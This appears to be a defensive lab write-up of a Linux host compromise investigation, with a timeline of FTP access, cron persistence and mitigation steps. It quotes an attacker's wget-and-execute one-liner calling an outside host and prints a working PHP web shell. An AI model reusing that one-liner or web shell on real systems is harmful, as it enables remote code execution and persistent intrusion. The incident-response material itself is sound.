



# Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`

- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.

      

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
 

## Mitigation Recommendations
- Rotate all service passwords and kill sessions for user account `ftpadam`
- Block ip `110.44.125.139` at the firewall level
- Remove the cron jobs created by the actor
- Remove malicious PHP web shell
- Install an IDS/IPS on the machine for future monitoring
- Patch or disable legacy FTP; if file transfer is required, use SFTP/FTPS and enforce strong authentication.
- Search other hosts for the same IOCs and conduct lateral-movement triage.

1. **Isolate the host**
   - Remove network access (or block egress) immediately to prevent further communication with attacker infrastructure.

2. **Block IOCs**
   - Block IP `110.44.125.139` and related domains (e.g., `crest.tt`) at the firewall and proxy level.
   - Add domain/IP/file-hash IOCs to IDS/IPS rules and endpoint detection lists.

3. **Reimage the host**

4. **Credential rotation & access hardening**
   - Rotate all credentials used on the host (service accounts, SSH keys, API tokens) and invalidate sessions for compromised accounts (e.g., `ftpadam`).
   - Enforce MFA where possible and tighten access control (limit who can create cron entries / upload files).

5. **Post‑reimage validation & monitoring**
   - Deploy monitoring agents (EDR/agent and Zeek/Suricata) and centralize logs to the SIEM.
   - Apply detection rules tuned to the indicators observed (wget/curl from /tmp, new root cron entries, web shell patterns).
   - Monitor the network for any signs of the attacker attempting to re-contact the environment.

6. **Environment-wide hunt**
   - Search other hosts for the same IOCs (domain, IP, file hashes, suspicious cron entries).
   - Check authentication logs for lateral movement attempts or reused credentials.

7. **Remediation follow-ups**
   - Patch or replace legacy services (disable FTP or replace with SFTP/FTPS), and harden web applications to prevent file uploads or RCE.
   - Conduct a post-incident review to update playbooks and detection rules.

## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID            |
| -------------- | --------------------------------- | ------------- |
| Initial Access | Exploit via Remote Services (FTP) | **T1133**     |
| Persistence    | Scheduled Task/Job (Cron)         | **T1053.003** |
| Execution      | Command Execution via Web Shell   | **T1505.003** |

